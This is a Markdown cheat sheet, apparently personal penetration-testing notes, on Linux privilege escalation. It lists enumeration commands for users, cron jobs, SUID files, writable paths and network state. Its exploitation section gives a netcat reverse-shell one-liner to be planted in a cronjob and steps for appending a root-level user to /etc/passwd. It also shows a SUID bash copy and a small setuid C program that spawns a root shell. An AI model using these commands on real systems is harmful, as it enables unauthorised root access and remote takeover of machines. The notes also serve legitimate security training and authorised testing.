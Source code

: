 ##### Basic Privilege Escalation Enumeration

###### Basic Privesc Enumeration for Linux
```
whoami /priv
whoami // Privileges info
---
id
---
cat /etc/passwd // Discover other users
---
hostname
---
cat /etc/issue // OS
--- 
cat /etc/*-release // OS + More info
---
uname -a // Exact Package
---
ps aux // Processes
---
ifconfig
---
ip a // ifconfig
---
/sbin/route // Network map / Could be routel depending on distro
---
ss -anp // Active network connections
```
###### Enumerating Firewalls for Linux
Need root for iptables but...
```
cat /etc/iptables // Check for this 
---
cat /etc/iptables-backup
---
cat /etc/iptables | grep 'iptables-save' // iptables-restore
```
###### Enumerating Scheduled Tasks for Linux
```
ls -lah /etc/cron* //List Tasks
---
cat /etc/crontab // Inspect Carfully 
```
###### Enumerating installed applications for Linux
```
dpkg -l | grep -i APP(ie.pam)

---
```
###### Enumerating R/W files for Linux
```
find / -writable -type d 2>/dev/null
---
```
###### Enumerating Unmounted Disks for Linux
```
mount // Show mounts
---
cat /etc/fstab // Check Mounting configs
---
/bin/lsblk  // View all available disks 
---
```
###### Enumerating Drivers and Kernal Modules for Linux
```
lsmod
---
s/sbin
---
/sbin/modinfo <module> //How to view modules
```
###### SUID for Linux
```
find / -perm -u=s -type f 2>/dev/null
```
###### Find files and groups
```
find /home -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null|column -t
```
###### Linux PrivEsc Exploitation
```
./unix-privesc-check // http://pentestmonkey.net/tools/unix-privesc-check
---
./unix-privesc-check standard
---
./unix-privesc-check detailed 
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP><PORT> >/tmp/f" // write this to a file in a cronjob
---
```
```
Injecting a superuser into /etc/passwd
openssl passwd <newpassword> // Populate password hash
-
echo "<NEW USERNAME>:<HASH>:0:0:root:/root:/bin/bash" >> /etc/passwd // add user to passwd
- 
su <new username> // rooted ;)
```
Try copy /bin/bash to spawn a root shell

```
cp /bin/bash rootbash

Make sure it is owned by root user and has the SUID bit set

./rootbash -p 

```
Create a custom exe
```
int main() {
  setuid(0);
  system("/bin/bash -p");
 }
 
 Compile with gcc -o shellin shellin.c

```
A list of tools
```
RSG - Reverse shell generator, github. (Check it out if you are really stuck)
LinEnum.sh
Linux Smart Enumeration (lse.sh)
LinPeas.sh
Linuxprivchecker
BeRoot
unix-privesc-check
```

